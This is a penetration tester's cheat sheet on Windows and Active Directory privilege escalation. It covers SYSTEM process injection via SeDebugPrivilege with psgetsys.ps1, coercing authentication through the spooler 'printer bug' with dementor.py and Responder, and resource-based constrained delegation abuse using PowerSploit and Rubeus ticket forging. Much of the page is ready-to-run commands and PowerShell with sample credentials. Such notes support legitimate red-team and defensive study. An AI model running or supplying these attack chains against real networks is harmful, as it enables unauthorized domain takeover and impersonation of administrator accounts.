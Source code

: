 # Privilege Escalation

## Process Elevation (via SeDebugPrivilege)

If you run `whoami /priv` and you see `SeDebugPrivilege` set to `Enabled`, you can assume you already have SYSTEM. One way of doing it, is using [decoder](https://twitter.com/decoder\_it)'s `psgetsys.ps1` [script](https://github.com/decoder-it/psgetsystem) once you have a good idea on a PID to inject: `. .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(7864, 'C:\temp\burmat443.exe');` You can also gain a MSF session and use the module `windows/manage/payload_inject` with a PID of your choice.

## Attacking spoolss ("The Printer Bug")

From a host with unconstrained delegation, "[the printer bug](https://www.slideshare.net/harmj0y/the-unintended-risks-of-trusting-active-directory)" and [dementor.py](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) can be used to cause a TGT relay from the target host to us running responder, so we can generate a TGS for any user on that target host:

{% code overflow="wrap" %}
```sh
## set up a relay with responder:
responder -I tun0 --lm # tun0 = 10.10.15.123

## execute exploit through:
proxychains python dementor.py -u xsvc -p 'S3cur3PW123' -d 'burmat.local' 10.10.15.123 10.10.10.123
```
{% endcode %}

## GenericWrite to Host + User SPN = PWN

If we have `GenericWrite` privileges over a host and we are a user that has an SPN, we can write our SID to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property against the AD object user [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev) and forge tickets as anyone we like. You can read more about it here: [https://alsid.com/company/news/kerberos-resource-based-constrained-delegation-new-control-path](https://alsid.com/company/news/kerberos-resource-based-constrained-delegation-new-control-path)

{% code overflow="wrap" %}
```powershell
## we can write our delegation attribute to the DC with the following:
$UserSid = Get-DomainUser svc_burmat -Properties objectsid | Select -Expand objectsid;
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($UserSid))";
$SDBytes = New-Object byte[] ($SD.BinaryLength);
$SD.GetBinaryForm($SDBytes, 0);
Get-DomainComputer websrv.burmat.local | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes};

## use rubeus to forge tickets as administrator accounts
rubeus.exe s4u /user:svc_burmat /ticket:doIFFDCCBRCg..SNIP.. /impersonateuser:administrator /msdsspn:cifs/websvr.burmat.local /ptt;
```
{% endcode %}

